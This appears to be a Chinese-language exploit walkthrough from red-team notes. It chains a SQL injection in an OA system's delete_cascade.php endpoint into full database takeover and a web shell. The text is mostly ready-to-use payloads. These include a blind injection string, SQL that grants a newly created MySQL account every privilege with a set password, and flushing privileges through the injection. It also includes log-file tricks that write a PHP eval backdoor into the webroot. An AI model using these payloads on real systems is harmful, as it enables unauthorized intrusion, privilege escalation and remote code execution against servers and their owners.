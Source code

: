 > 然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

```angular2
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));
```
![](images/hvv_13.png)

> 然后用注入点刷新权限，因为该用户是没有刷新权限的权限的:`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限。再次登录：

![](images/hvv_14.png)

> 提示这个，或者让改密码死活改不了。再执行一下`grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION`即可
![](images/hvv_15.png)

> 写shell
```angular2
# 查路径：
select @@basedir; # c:\td0a117\mysql5\，那么web目录就是c:\td0a117\webroot\
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='C:/td0a117/webroot/tony.php';
select '<?php eval($_POST[x]);?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'C:/td0a117/webroot/tony2.php';
select '<?php eval($_POST[x]);?>';
show variables like '%general%';
```
![](images/hvv_16.png)


> 简化版

```angular2
利用条件:需要登录权限,文章作者给出了利用链注入加mysql权限,又是写木马的。确实用起来很舒服。
/general/hr/manage/query/delete_cascade.php?condition_cascade=
select%20if((substr(user(),1,1)=%27r%27),1,power(9999,99))
1、添加一个mysql用户
grant all privileges ON mysql.* TO 'ateam666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

2、给创建的ateam666账户添加mysql权限。
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('ateam666' AS Binary(5));
3、刷新数据库就可以登录到数据库啦。
/general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;
```